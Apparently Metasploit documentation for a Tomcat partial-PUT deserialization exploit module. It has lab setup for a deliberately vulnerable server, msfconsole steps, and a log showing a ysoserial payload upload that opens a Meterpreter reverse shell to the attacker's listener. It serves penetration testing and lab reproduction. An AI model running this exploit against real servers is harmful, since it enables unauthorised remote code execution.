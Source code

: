 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in Apache Tomcat's session restoration functionality
that can be exploited with a partial HTTP PUT request to place an attacker controlled deserialization payload in the
<tomcat_root_dir>/webapps/ROOT/ directory. For the exploit to succeed, writes must be enabled for the default servlet,
and `org.apache.catalina.session.PersistentManager` must be configured to use `org.apache.catalina.session.FileStore`.

## Setup
Download Ubuntu Server 24:
`wget https://mirror.0xem.ma/ubuntu-releases/24.04.2/ubuntu-24.04.2-live-server-amd64.iso`

Install ubuntu on your preferred hypervisor, enable SSH during installation. Reboot once installation is complete and SSH into the target.
Download Tomcat and Java:
```
wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
wget https://cdn.azul.com/zulu/bin/zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
```

Extract the JDK Archive to the appropriate directory:
```
tar -xvzf zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
sudo mkdir -p /opt/java
sudo mv zulu8.80.0.17-ca-jdk8.0.422-linux_x64 /opt/java/zulu8
```

Install `unzip` and extract Tomcat:
```
sudo apt install unzip -y
sudo unzip apache-tomcat-9.0.90.zip -d /opt/
```

Set `CATALINA_HOME` and `JAVA_HOME` also update `PATH` by adding the following to `~/.bashrc`:
```
export CATALINA_HOME=/opt/apache-tomcat-9.0.90
export JAVA_HOME=/opt/java/zulu8
export PATH=$JAVA_HOME/bin:$PATH
```

Apply changes:
```
source ~/.bashrc
```

Change Tomcat permissions:
```
sudo chown -R msfuser:msfuser /opt/apache-tomcat-9.0.90
sudo chmod -R +x /opt/apache-tomcat-9.0.90/bin
```

Edit `conf/web.xml` and update the default servlet with the following:
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
          <param-name>readonly</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

Edit `conf/content.xml` and add the following inside the pre-existing `<Context>` tags:
```
    <Manager className="org.apache.catalina.session.PersistentManager">
      <Store className="org.apache.catalina.session.FileStore" />
    </Manager>
```

Create the following directory inside the tomcat root directory:
```
mkdir -p webapps/ROOT/WEB-INF/lib
cd ./webapps/ROOT/WEB-INF/lib
```

Download the following dependencies:
```
wget https://repo1.maven.org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
wget https://repo1.maven.org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
wget https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar
```

Start the vulnerable Tomcat instance:
```
cd /opt/apache-tomcat-9.0.90/bin
./startup.sh
```

## Options

### GADGET
The desired ysoserial gadget to use to obtain RCE.

## Verification Steps
1. Start msfconsole
2. `use multi/http/tomcat_partial_put_deserialization`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set GADGET <YSOSERIAL_GADGET>`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Apache Tomcat 9.0.90, jdk8.0.422 running on Ubuntu Server 24. Target: Linux Command

```
msf > use multi/http/tomcat_partial_put_deserialization
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(multi/http/tomcat_partial_put_deserialization) > set rport 8080
rport => 8080
msf exploit(multi/http/tomcat_partial_put_deserialization) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf exploit(multi/http/tomcat_partial_put_deserialization) > set gadget CommonsCollections6
gadget => CommonsCollections6
msf exploit(multi/http/tomcat_partial_put_deserialization) > check
[!] This exploit may require manual cleanup of '../webapps/ROOT/YLNKdGSIcB.session' on the target
[+] 172.16.199.130:8080 - The target is vulnerable.
msf exploit(multi/http/tomcat_partial_put_deserialization) > run
[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Utilizing CommonsCollections6 deserialization chain
[+] Uploaded ysoserial payload (imNsIsZCCC.session) via partial PUT
[*] Attempting to deserialize session file..
[+] 500 error response usually indicates success :)
[*] Sending stage (24772 bytes) to 172.16.199.130
[+] Deleted ../webapps/ROOT/pAdshcNMRO.session
[+] Deleted ../webapps/ROOT/imNsIsZCCC.session
[*] Meterpreter session 6 opened (172.16.199.1:4444 -> 172.16.199.130:44562) at 2025-04-02 13:34:50 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : msfserver
OS              : Linux 6.8.0-57-generic #59-Ubuntu SMP PREEMPT_DYNAMIC Sat Mar 15 17:40:59 UTC 2025
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

